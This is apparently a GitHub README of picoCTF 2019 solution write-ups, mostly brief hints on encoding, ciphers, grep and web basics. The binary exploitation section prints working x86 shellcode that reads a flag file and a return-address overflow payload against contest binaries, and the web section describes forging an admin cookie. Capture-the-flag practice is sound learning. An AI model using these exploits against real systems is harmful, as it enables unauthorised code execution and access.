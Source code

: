 # picoCTF

I will update this as I work through all of the challenges. I highly recommend trying them on your own before reading my solutions.

## General Skills

#### 2 Warm
This type of problem is really easy to solve with python. Open python in your terminal and use ```bin()``` to convert the number to binary.

#### Let's Warm Up
This is another one that is really easy with python. When converting hexadecimal to ASCII my method of choice is to use ```chr()```

#### Warmed Up
Another easy python challenge to convert to decimal ```int('0x3D', 16)```

#### Bases
If you haven't noticed already, python is your friend. This one I solved using ```base64.b64decode(encoded_string)```

#### First Grep
Easy grep, solved using ```cat file | grep "pico"```

#### Resources
Read the source code.

#### strings it
The name gives it away, but use strings to find the flag for this one ```strings strings | grep "pico"```

#### what's a net cat?
This one is super simple. Use ```netcat 2019shell1.picoctf.com 12265``` to connect to the server and retrieve the flag.

## Forensics

#### Glory of the Garden
I went straight to the basics on this one. Flags are often hidden at the end of the image, and since we know the flag format we can search for it with ```strings garden.jpg | grep "pico"```

#### unzip
Another easy one, just unzip.

## Cryptography

#### The Numbers
This is another one where knowing the flag format helps us out significantly. We can see ```{ }``` which is part of our flag format, and can also see that none of the numbers are greater than 26. This probably means it's a simple substitution cypher. To solve this I wrote a python script that takes the alphabet and the provided numbers to print out the flag. ```python3 the_numbers.py```

#### 13
This is a caesar cipher, so just decode like any other.

#### Easy 1
This is vigenere cipher which we can pretty much tell by the provided table. To solve this one I wrote a python script ```python3 easy1.py```

#### caesar
As the name implies this is another caesar cipher. The trick to this one is finding the correct ROT.

## Binary Exploitation

#### handy-shellcode
This wasn't too hard but I always have the most fun with these. There's no overflow required for this challenge, just basic shellcode really. The first thing I did was convert the path of the file to shellcode:

<code>
\x68\x74\x00\x00\x00\x68\x67\x2e\x74\x78\x68\x2f\x66\x6c\x61\x68\x33\x33\x65\x62\x68\x35\x35\x64\x32\x68\x64\x31\x36\x37\x68\x32\x39\x31\x66\x68\x32\x64\x36\x34\x68\x61\x38\x31\x36\x68\x34\x65\x31\x32\x68\x66\x30\x62\x38\x68\x65\x5f\x36\x5f\x68\x6c\x63\x6f\x64\x68\x73\x68\x65\x6c\x68\x6e\x64\x79\x2d\x68\x73\x2f\x68\x61\x68\x62\x6c\x65\x6d\x68\x2f\x70\x72\x6f
</code><br/><br/>
 
Then I completed it by adding the instructions to read the file, and executing the shellcode:
  
<code>
echo -e '\x31\xc9\x51\x68\x74\x00\x00\x00\x68\x67\x2e\x74\x78\x68\x2f\x66\x6c\x61\x68\x33\x33\x65\x62\x68\x35\x35\x64\x32\x68\x64\x31\x36\x37\x68\x32\x39\x31\x66\x68\x32\x64\x36\x34\x68\x61\x38\x31\x36\x68\x34\x65\x31\x32\x68\x66\x30\x62\x38\x68\x65\x5f\x36\x5f\x68\x6c\x63\x6f\x64\x68\x73\x68\x65\x6c\x68\x6e\x64\x79\x2d\x68\x73\x2f\x68\x61\x68\x62\x6c\x65\x6d\x68\x2f\x70\x72\x6f\x31\xc0\xb0\x05\x89\xe3\xcd\x80\x89\xc3\x31\xc0\xb0\x03\x89\xe1\x31\xd2\xfe\xc2\xcd\x80\x50\x53\x31\xc0\xb0\x04\x31\xdb\xfe\xc3\xcd\x80\x5b\x58\x83\xf8\x01\x74\xe1\xb0\x06\xcd\x80\xb0\x01\xcd\x80' | ./vuln
</code>

#### practice-run-1
This one is too simple to need an explanation.

#### OverFlow 0
This one requires a basic overflow to retreive the flag. We can see that the buffer is 128 bytes, so we'll feed it more than that to crash the program and retreive the flag.

#### OverFlow 1
The first thing you want to do for this challenge is look over the source code in ```vuln.c```. There are a few things to note here. First of all we can see that the buffer size is 64 bytes. We can see that when we run the program it gives us the return memory address, and also that there is a ```flag()``` function that's never called. It looks like we'll have to use a buffer overflow to execute the ```flag()``` function and get our flag. Another thing to note is what is actually allowing this buffer overflow to happen. Since the program is using ```gets(buf)``` it doesn't actually care about the buffer, it just keeps reading until a new line which ultimately overflows it.

To get started we'll want to get some basic memory information. Since this one gives us the return address as part of the main ```vuln()``` function we can run the program and enter something less than 64 bytes to see normal behaviour. After doing this we can see that the normal address is ```0x8048705```. Now we'll look at the program to find the address of the flag function. To do this I opened the vuln program with ```gdb vuln``` and examined the ```flag()``` function with ```disas flag```. We can now see that this address is ```0x080485e6```. One last thing is that since this is Intel architecture we'll need to convert to little endian before running running anything, ```\xe6\x85\x04\x08```.

It took a little bit of playing around to retrive the flag, but I've provided my code below. One tip while doing this is to alternate the letters that you're using for your buffer. Since the program prints the return memory address after execution, you can use that to see where you're overwriting the memory. In my case I noticed 44 in the address which is ```D (0x44)```, so I knew to back off my padding by a few characters.

<code>
cat <(echo -e '666666666666666666666666666666666666666666666666666666666666666AAAABBBBCCCCD\xe6\x85\x04\x08') - | ./vuln
</code>

## Web Exploitation

#### Insp3ct0r
This one really doesn't need much info. Read all of the source code.

#### logon
If you view the session cookies for this web app you'll see there is a flag for admin that is currently set to false. If you edit the cookie and set this to true you'll be able to retrive the flag.

#### where are the robots
This is web exploitation 101. Always check the ```robots.txt``` file.

## Reverse Engineering

#### vault-door-training
Source code is your friend.

#### dont-use-client-side
This is a lot like the hackthebox signup page. If you have a very basic understanding of JavaScript you'll be able to decode the 'algorithm' for the password verification.

#### vault-door-1
This challenge involves reading the Java source code and reverse engineering the algorithm being used to validate the password.
